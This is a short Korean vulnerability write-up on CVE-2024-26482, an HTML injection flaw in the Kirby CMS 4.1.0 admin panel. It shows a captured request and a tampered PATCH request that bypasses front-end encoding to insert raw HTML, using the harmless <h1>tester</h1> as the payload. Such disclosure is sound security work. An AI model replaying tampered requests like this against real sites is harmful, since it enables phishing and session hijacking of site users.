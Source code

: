 ```yaml
---
title: "[하루한줄] CVE-2024-26482: Kirby CMS의 HTML Injection 취약점"
author: pwndorei
tags: [Kirby CMS, HTML Injection, pwndorei]
categories: [1day1line]
date: 2024-02-22 23:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://shrouded-trowel-50c.notion.site/Kirby-CMS-4-1-0-HTML-Injection-19ca19686d0a4533ab4b0c53fc977eef?pvs=4](https://www.notion.so/CVE-2024-26482-Kirby-CMS-4-1-0-HTML-Injection-19ca19686d0a4533ab4b0c53fc977eef?pvs=21)

## Target

- Kirby CMS 4.1.0

## Explain

파일 기반 CMS(콘텐츠 관리 시스템)인 Kirby CMS에서 HTML Injeciton 취약점이 발생했습니다.

취약점은 아래의 관리 패널에서 콘텐츠 레이아웃을 수정할 때 발생합니다.

![image0](2024-02-22/image0.png)

위처럼 레이아웃에 HTML 코드를 추가하면 아래와 같은 HTTP 요청이 발생합니다.

```
POST /BGZUwFZY/api/pages/microsite HTTP/1.1
Host: trykirby.com
Cookie: kirby_session=910521efece58be7ce81f24f7c2b5978f21a791a%2B1707762274.dd8b11107e02a3859af3.2da7b8302b8e19193900caedabf370a68d674e23f80cf58135327d573242604b; instance=410dd31498585dbf2529a45d1da40600f8a7c87c%2Bhttps%3A%2F%2Ftrykirby.com%2FBGZUwFZY%2F; snipcart-cart=37440eed-2a09-4ed3-b534-515b00f4301c
Content-Length: 371
Sec-Ch-Ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
X-Language: null
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json
X-Csrf: dffaa6b125814485f872c3bfb34fa828d0bdbb5597fa0cbfcd8306bf6f302683
X-Http-Method-Override: PATCH
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://trykirby.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: same-origin
Sec-Fetch-Dest: empty
Referer: https://trykirby.com/BGZUwFZY/panel/pages/microsite?tab=content
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "modules": [
    {
      "attrs": [],
      "columns": [
        {
          "blocks": [
            {
              "content": {
                "text": "<p>&lt;h1&gt;tester&lt;/h1&gt;</p>"
              },
              "id": "970d3d93-f87c-4a36-a912-018a262e3b1d",
              "isHidden": false,
              "type": "text"
            }
          ],
          "id": "4007332a-999e-4aa2-966b-53ddc76b0ae2",
          "width": "1/1"
        }
      ],
      "id": "36dc9245-8867-4f8a-b2cd-2496d3998ffa"
    }
  ],
  "description": "Representative one-pagers for your product",
  "uuid": "VZlscZfc8c5gEiwM"
}
```

삽입한 `<h1>tester</h1>` HTML 코드에서 `<`, `>`가 HTML 엔티티로 인코딩되고 `p` 태그에 감싸져서 전달되는 것을 확인할 수 있습니다.

하지만 이러한 변환이 프론트엔드에서 이루어지기 때문에 아래와 같이 임의의 HTML 코드로 요청을 변조하는 것이 가능합니다.

```
POST /BGZUwFZY/api/pages/microsite HTTP/1.1
Host: trykirby.com
Cookie: kirby_session=910521efece58be7ce81f24f7c2b5978f21a791a%2B1707762274.dd8b11107e02a3859af3.2da7b8302b8e19193900caedabf370a68d674e23f80cf58135327d573242604b; instance=410dd31498585dbf2529a45d1da40600f8a7c87c%2Bhttps%3A%2F%2Ftrykirby.com%2FBGZUwFZY%2F; snipcart-cart=37440eed-2a09-4ed3-b534-515b00f4301c
Content-Length: 352
Sec-Ch-Ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
X-Language: null
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json
X-Csrf: dffaa6b125814485f872c3bfb34fa828d0bdbb5597fa0cbfcd8306bf6f302683
X-Http-Method-Override: PATCH
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://trykirby.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: same-origin
Sec-Fetch-Dest: empty
Referer: https://trykirby.com/BGZUwFZY/panel/pages/microsite?tab=content
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "modules": [
    {
      "attrs": [],
      "columns": [
        {
          "blocks": [
            {
              "content": {
                "text": "<h1>tester</h1>"
              },
              "id": "970d3d93-f87c-4a36-a912-018a262e3b1d",
              "isHidden": false,
              "type": "text"
            }
          ],
          "id": "4007332a-999e-4aa2-966b-53ddc76b0ae2",
          "width": "1/1"
        }
      ],
      "id": "36dc9245-8867-4f8a-b2cd-2496d3998ffa"
    }
  ],
  "description": "Representative one-pagers for your product",
  "uuid": "VZlscZfc8c5gEiwM"
}
```

수정된 레이아웃을 확인해보면 아래와 같이 삽입된 HTML 코드가 그대로 페이지에 나타나는 것을 볼 수 있습니다.

![image1](2024-02-22/image1.png)

해당 취약점은 악의적인 HTML, Javascript 코드를 삽입하여 피싱이나 세션 하이재킹 등에 악용될 가능성이 있으며 아직 패치는 이루어지지 않은 상태입니다.
